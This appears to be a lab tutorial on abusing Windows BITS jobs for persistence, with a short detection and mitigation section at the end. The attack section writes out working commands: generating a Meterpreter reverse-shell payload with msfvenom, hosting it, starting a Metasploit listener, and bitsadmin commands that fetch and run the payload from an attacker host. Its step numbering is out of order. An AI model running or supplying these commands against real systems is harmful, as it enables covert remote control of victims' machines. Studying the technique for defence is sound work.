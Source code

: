 # Exploiting BITS Jobs for Persistence

## 1. Introduction

Background Intelligent Transfer Service (BITS) is a Windows service designed for low-bandwidth, asynchronous file transfers. It is commonly used by Windows Update, messaging applications, and other background services that require efficient file transfer without disrupting network performance. However, adversaries can abuse BITS jobs for malicious purposes, including persistent code execution, downloading and executing payloads, and exfiltrating data.

---

## 2. Understanding BITS Jobs and Why They Are Exploitable

BITS operates by creating and managing jobs that handle file transfers. These jobs can be configured to:
- Download and execute files
- Run commands upon completion or failure
- Store job configurations in a database, avoiding registry modifications
- Persist across reboots with a default maximum lifetime of 90 days (extendable)

The BITS interface can be accessed via:
- PowerShell (`Start-BitsTransfer`, `Get-BitsTransfer`)
- BITSAdmin tool (`bitsadmin /transfer`)

Since BITS jobs are often allowed by host firewalls and do not create obvious new files, they provide a stealthy mechanism for attackers to execute malicious code and maintain persistence on a target system.

---

## 3. Attack Scenario: Persistence via BITS Jobs

### 3.1. Lab Setup

This attack is demonstrated in a controlled lab environment using VMware Workstation. The setup consists of:
- **Attacker:** Kali Linux : 192.168.100.10 (running Metasploit Framework)
- **Victim:** Windows 10: 192.168.1.11 (BITS service enabled)
- **Network Configuration:** NAT

### 3.2. Attack Execution

#### Step 1: Using Metasploit to create payload
On Kali Linux, open a terminal and generate a malicious executable:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.10 LPORT=4444 -f exe > /tmp/payload.exe
```
#### Step 3: Send Payload through Python HTTP Server
```bash
cd /tmp
python3 -m http.server 8080
```
Setting Up a Listener on Kali Linux

To capture the reverse shell, the attacker sets up a Metasploit listener:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.10
set LPORT 4444
exploit
```
When the victim executes the payload, a Meterpreter session is established, giving the attacker control over the compromised system.
#### Step 2: Creating a Malicious BITS Job

On the compromised Windows machine, the attacker executes PowerShell commands to create a persistent BITS job:
```powershell
bitsadmin /create test
bitsadmin /addfile test "http://192.168.100.10:8080/payload.exe" "C:\Users\Public\payload.exe"
bitsadmin /SetNotifyCmdLine test "C:\Windows\System32\cmd.exe" "/c start C:\Users\Public\payload.exe"
bitsadmin /resume test
```
This command sequence:
- Downloads a payload from the attacker's server
- Saves it to a writable directory (`C:\Users\Public\`)
- Configures the job to execute the payload once the transfer is complete
- Resumes the job to trigger execution

#### Step 3: Achieving Persistence

Since BITS jobs persist in the system’s job queue, they remain active even after reboots. To confirm persistence, the attacker can run:
```powershell
Get-BitsTransfer | Format-Table -AutoSize
```
If the system is restarted, the job will still exist, allowing the payload to be re-executed.

---


## 4. Detecting and Mitigating BITS Job Abuse

### 4.1. Detection

Administrators can monitor for suspicious BITS jobs by running:
```powershell
Get-BitsTransfer -AllUsers | Select-Object -Property DisplayName, JobState, Owner, TransferType, NotifyCmdLine
```
Additionally, security logs and endpoint detection tools can help identify unexpected BITS activity.

### 4.2. Mitigation

To remove suspicious BITS jobs, execute:
```powershell
Get-BitsTransfer | Remove-BitsTransfer
```
To further secure the system:
- Restrict BITS job creation to trusted applications using Group Policy
- Monitor and log BITS activity for anomalous behavior
- Use application whitelisting to prevent unauthorized execution

---

## 5. Conclusion

BITS Job Persistence is a stealthy technique that attackers can use to maintain access on a Windows system. By leveraging the native BITS service, adversaries can execute payloads, evade detection, and maintain persistence without modifying the registry or creating new scheduled tasks. Understanding this technique is crucial for defenders to detect and mitigate such attacks effectively.
